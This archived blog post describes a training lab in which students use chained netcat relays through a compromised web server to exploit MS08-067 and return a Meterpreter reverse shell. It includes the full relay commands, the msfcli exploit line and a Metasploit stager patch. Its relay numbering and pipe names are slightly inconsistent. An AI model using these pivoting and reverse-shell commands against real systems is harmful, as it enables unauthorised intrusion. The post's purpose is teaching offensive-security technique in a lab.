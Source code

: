 ```yaml
---
id: 793
title: 'Five Relays and a Patch'
date: '2010-05-26T08:57:34-05:00'
author: ron
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=793'
permalink: /2010/five-relays-and-a-patch
categories:
    - hacking
    - tools
---
```


Hey all,

We hired a new pair of <a href="http://coop.cs.umanitoba.ca">co-op students</a> recently. They're both in their last academic terms, and are looking for a good challenge and to learn a lot. So, for a challenge, I set up a scenario that forced them to use a series of netcat relays to compromise a target host and bring a meterpreter session back. Here is what the network looked like:
<img style="border-top-width: 0px; border-right-width: 0px; border-bottom-width: 0px; border-left-width: 0px; border-style: initial; border-color: initial; display: block; margin-left: auto; margin-right: auto; " title="Firewall Rules" src="/blogdata/fiverelays-1.png" alt="" width="236" height="494" />
To describe in text:
<ul>
	<li>They have already compromised a Web server with a non-root account</li>
	<li>The Web server has no egress filtering, but full ingress filtering, and they aren’t allowed to install anything (fortunately, it already had Netcat)</li>
	<li>The target server has both egress and ingress filtering, and is not accessible at all from the Internet, but the Web server can connect to it on 139/445 (which are vulnerable to ms08-067). The target can also connect back to the Web server on any port.</li>
</ul>
The challenge was to exploit the target server with ms08-067 and bring a meterpreter session back to the attacker server.
<!--more-->
I had expected this would require 3-4 netcat relays, but, after helping them to get this working, we ended up with 5 relays for a variety of reasons, plus a minor patch to Metasploit! Maybe we did it the hard way, and maybe we didn’t need all those relays, but it was fun to set up and satisfying to get working.

Anyway, I’ll let them explain what they did!
<h2>Five relays and a patch</h2>
The image below shows the various netcat relays we ended up using, in order of execution.

<img style="border-top-width: 0px; border-right-width: 0px; border-bottom-width: 0px; border-left-width: 0px; border-style: initial; border-color: initial; display: block; margin-left: auto; margin-right: auto; " title="Relays" src="/blogdata/fiverelays-2.png" alt="" width="405" height="560" />

The first goal was to find a way to bypass the firewalls.  Metasploit was using default ports 445 for outgoing and 4444 for incoming connections, and since we can't connect to either of those ports on the Web Server (WEB), we needed the WEB to establish a connection back to us.  Fortunately WEB can connect to TARGET on port 445, and can receive a connection back on any port. Thus 2 netcats are running on the WEB are:
<pre> nc HACKER 1234 -vv &lt; pipe4 |  nc TARGET 445 -vv &gt; pipe4</pre>
This command forwards the traffic coming in on port 1234 from the HACKER to TARGET port 445 (Relay #4).
<pre> nc -l -p 4444 -vv &lt; pipe2 | nc HACKER 4442 -vv &gt; pipe2</pre>
This command listens for the meterpreter session back from TARGET on port 4444 and relays it to HACKER on port 4442 (Relay #2).

Why does WEB connect on arbitrary port 1234 instead of connecting to Metasploit's port 445? Well, Metasploit doesn't listen on that port, it needs to initiate the connection. So we need a netcat relay running on HACKER to listen for connection from Metasploit and connect it with the incoming connection from the WEB (Relay #3):
<pre>nc -l -p 1234 -vv &lt; pipe3 | nc -l -p 445 &gt; pipe3</pre>
As you might have noticed the WEB is  connecting back on port 4442, not 4444 on which Metasploit is listening (Relay #2). They cannot be connected directly, as WEB will establish connection immediately when it starts and Metasploit will get confused since its waiting on Meterpreter session and fail. So we need a relay listening on port 4442 on the HACKER and connecting it back to Metasploit, right? Well, not that simple.
<pre> nc -l -p 4443 -vv &lt; pipe1 | nc -l -p 4442 -vv &gt; pipe1</pre>
This command will listen for incoming connection from WEB on port 4442 and relay it to port 4443 when that connection is established (Relay #1). This gives Metasploit time to trigger an exploit and we only establish a final connection to Metasploit  once it did by running a final command:
<pre>nc HACKER 4444 -vv &lt; pipe5 | nc HACKER 4443 -vv &gt; pipe</pre>
This simply establishes a connection to the relay running on the same computer on port 4443 and sends it to Metasploit on port 4444 (Relay #6).

The biggest challenge was getting the timing of the last command right. We needed to activate it after Metasploit starts listening for the reverse_tcp stager but before it sends stage data. If stage data was sent before the entire link was created,the vulnerability would be exploited, but the stage would fail. In order to get the timing right for the final command, a modification to the <em>stager.rb</em> in the <em>lib/msf/core/payload/</em> folder was necessary. We added a three-second delay after the vulnerability has been triggered and before the stage data was sent in order to give us time to link the netcat relays together for the connection back.

This is the patch against the Metaploit version on the Backtrack 4 cd (it'll likely fail against the HEAD revision due to a number of changes):
<pre>Index: stager.rb
===================================================================
--- stager.rb   (revision 8091)
+++ stager.rb   (working copy)
@@ -100,6 +100,9 @@
                                p = (self.stage_prefix || '') + p
                        end

+            print_status("Delaying for three seconds (Start your nc relay).")
+            Kernel.sleep(3)
+
                        print_status("Sending stage (#{p.length} bytes)")

                        # Send the stage
@@ -164,4 +167,5 @@
        #
        attr_accessor :stage_prefix</pre>
Now that everything should be (theoretically) working, we had to make sure to start netcat relays in the right order to make sure they can establish connections, and we had to wait before executing #6 until #2 received a connection established message. The -vv command is optional for all nc instances except in #2, where they are used to determine when to execute #6. We first start all the listener relays and then start the relays that establish connections. The commands were executed in the order provided
<ol>
	<li>This command is run on the HACKER:</li>
<pre>nc -l -p 4443 -vv &lt; pipe1 | nc -l -p 4442 -vv &gt; pipe1</pre>
	<li>This command was run on the WEB:</li>
<pre>nc -l -p 4444 -vv &lt; pipe2 | nc HACKER 4442 -vv &gt; pipe2</pre>
	<li>HACKER:</li>
<pre>nc -l -p 1234 -vv &lt; pipe3 | nc -l -p 445 &gt; pipe3</pre>
	<li>WEB:</li>
<pre>nc HACKER 1234 -vv &lt; pipe4 | nc TARGET 445 -vv &gt; pipe4</pre>
	<li>Now that we have a connection to the target we run an exploit:</li>
<pre>./msfcli exploit/windows/smb/ms08_067_netapi 
 PAYLOAD=windows/meterpreter/reverse_tcp RHOST=HACKER LHOST=WEB E</pre>
	<li>Last command is run on HACKER when Relay #2 displays a detected connection:</li>
<pre>nc HACKER 4444 -vv &lt; pipe5 | nc HACKER 4443 -vv &gt; pipe</pre>
</ol>